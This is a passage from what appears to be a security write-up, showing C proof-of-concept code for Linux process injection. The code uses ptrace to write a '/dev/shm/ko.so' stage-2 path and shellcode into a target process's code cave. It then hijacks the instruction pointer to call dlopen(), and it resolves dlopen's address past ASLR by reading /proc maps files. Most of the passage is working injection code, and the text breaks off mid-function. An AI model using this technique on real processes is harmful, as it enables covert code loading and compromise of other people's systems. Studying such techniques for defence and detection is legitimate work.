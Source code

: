 ```c
// Now is time to overwrite the code cave with our code   
    ptraceWrite(pid, code_cave_address, "/dev/shm/ko.so\x00", 16); // Stage 2 location
    ptraceWrite(pid, code_cave_address + 16, "\x90\x90\x90\x90\x90\x90\x90\x90", 8);
    ptraceWrite(pid, code_cave_address + 16 + 8, (&injectme) + 4, 32);

    // Change program counter to our inserted code
    regs.rip = code_cave_address + 16 + 8;
    
    // Now we need to follow the call convention so:
    // - RAX => must be the address of remote dlopen()
    // - RDI => address where "/dev/shm/ko.so" string lies (first dlopen parameter)
    // - RSI => RTLD_LAZY value -2- (second dlopen parameter)
    regs.rax = dlopen_addr(pid);
    regs.rdi = code_cave_address;
    regs.rsi = 2;
    ptrace(PTRACE_SETREGS, pid, NULL, &regs);
```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
But wait, wait! How do we know the address of dlopen()? It is a bit tricky because ASLR: first we need to find the address in our own process and check the location of libdl in /proc/self/maps, so we can calculate the offset value. Then we check the libdl address at /proc/$PID/maps and add the offset value :)

```c
// Use this function to calculate the dlopen() addr in remote pid
// This is needed because of ASLR :(
// IMPORTANT!!!! I hardcoded the name of the .so as LIBDLSO because it is just a PoC. You need to retrieve it at runtime ;D
unsigned long long dlopen_addr(pid_t pid) {
    unsigned long long remote_libdl_base, offset_dlopen, remote_dlopen_address;
    void *local_libdl_base, *local_dlopen_address;
    char path[1024];
    char line[850];
    FILE *fp;

    // First we need to load libdl and save the address (debug purposes)
    local_libdl_base = dlopen(LIBDLSO, RTLD_LAZY);
    if (!local_libdl_base) {
        exit(-1);
    }
    
    // Next we are going to resolve the dlopen() symbol
    local_dlopen_address = dlsym(local_libdl_base, "dlopen");
    if (!local_dlopen_address) {
        exit(-1);
    }
    
    // Read local address
    fp = fopen("/proc/self/maps", "r");
    while(fgets(line, 850, fp) != NULL) {
        sscanf(line, "%llx-%*lx %*s %*s %*s %*d", &local_libdl_base);
        if (strstr(line, LIBDLSO) != NULL) {
            break;
        }
    }
    fclose(fp); 
    // Calculate the offset (libdl  address - dlopen address)
    offset_dlopen = (unsigned long long) (local_dlopen_address - local_libdl_base);
    
    // Now we need to extract the remote libdl  address
    snprintf(path, sizeof(path), "/proc/%d/maps", pid); 
    fp = fopen(path, "r");
    while(fgets(line, 850, fp) != NULL) {
        sscanf(line, "%llx-%*lx %*s %*s %*s %*d", &remote_libdl_base);
```